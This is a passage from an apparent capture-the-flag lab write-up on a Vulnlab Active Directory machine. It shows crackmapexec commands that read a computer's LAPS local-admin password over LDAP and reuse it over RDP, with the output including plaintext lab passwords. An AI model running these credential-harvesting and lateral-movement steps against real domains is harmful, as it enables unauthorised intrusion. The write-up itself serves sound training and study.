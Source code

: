 According to bloodhound there are 2 ways to abuse this privilege:
- [Resource-based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) - this failed because none of the users that i control can add computer to the domain (both had Machine Account Quota set to 0)
- [Shadow credentials](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials) - this failed because of LDAPS, i couldn't get past the SSL errors

I spent quite some time trying to get these attacks to work, but kept running into issues. Since the attack was failing because of LDAP, i tried `CME` to login with via LDAP, and it turns out `abbie.smith` can read the LAPS of MS01:
```
crackmapexec ldap 10.10.230.149 -u abbie.smith -p CMe1x+nlRaaWEw -M LAPS                 
SMB         10.10.230.149   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.230.149   389    DC01             [+] reflection.vl\abbie.smith:CMe1x+nlRaaWEw 
LAPS        10.10.230.149   389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.230.149   389    DC01             Computer:MS01$ User:                Password:H447.++h6g5}xi
```
This is indeed, the password of local admin on MS01:
```
crackmapexec rdp 10.10.230.150 -u administrator -p 'H447.++h6g5}xi' --local-auth         
RDP         10.10.230.150   3389   MS01             [*] Windows 10 or Windows Server 2016 Build 20348 (name:MS01) (domain:MS01) (nla:False)
RDP         10.10.230.150   3389   MS01             [+] MS01\administrator:H447.++h6g5}xi (Pwn3d!)
```
I can login via RDP and get the on admin's desktop:

![rdp](/assets/screenshots/vulnlab-reflection/rdp.png)
